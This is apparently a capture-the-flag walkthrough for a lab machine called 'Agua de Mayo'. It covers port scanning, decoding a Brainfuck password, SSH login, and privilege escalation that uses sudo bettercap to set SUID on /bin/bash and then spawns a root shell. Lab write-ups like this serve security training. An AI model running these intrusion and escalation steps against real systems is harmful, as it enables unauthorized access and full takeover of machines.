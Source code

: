 # Agua de Mayo

## Port Enumeration

To begin our scan, we use the Nmap tool  during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page and Its Infrastructure
We access the web page hosted on the Apache server and find this:

 (Foto comentarios pagina web)

 It seems we have encountered Brainfuck code, so we need a Brainfuck to ASCII translator. This word appears, which could be a possible password

```ruby
bebeaguaqueessano
```

(Foto del traductor)

Now we perform a subdomain enumeration using the tool DirBuster, obtaining the following:

```ruby
gobuster dir -u http://172.17.0.2/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html

```

Foto de agua ssh

## Examining the agua_ssh.jpg Image

We download the image and use tools like ExifTool or Steghide to check if there is any secret inside it. However, we do not find anything.

foto exiftool 

## Intrusion

Finally, we will try to authenticate to the SSH service.
``` ruby
user: agua
password: bebeaguaqueessano
```

foto de intrusion


## Escalation privilege

With the id command, we see that we belong to the lxd group. Possibly, if we exploit this vulnerability, we can escalate privileges.


We will see that we have a file named alpine-v3.13-x86_64-20210218_0139.tar.gz, which makes it almost certain that we should exploit lxd. But no, this is nothing more than a rabbit hole.

If we run sudo -l, we see that we can execute /usr/bin/bettercap as root.

foto bettercap 

If we open the file with sudo, we can make our bash appear with the following command:
ruby

```ruby
! chmod +s /bin/bash
```

We close the application and execute the following command in a new terminal:

```ruby
/bin/bash -p
```

Finally, we see that we are the root user.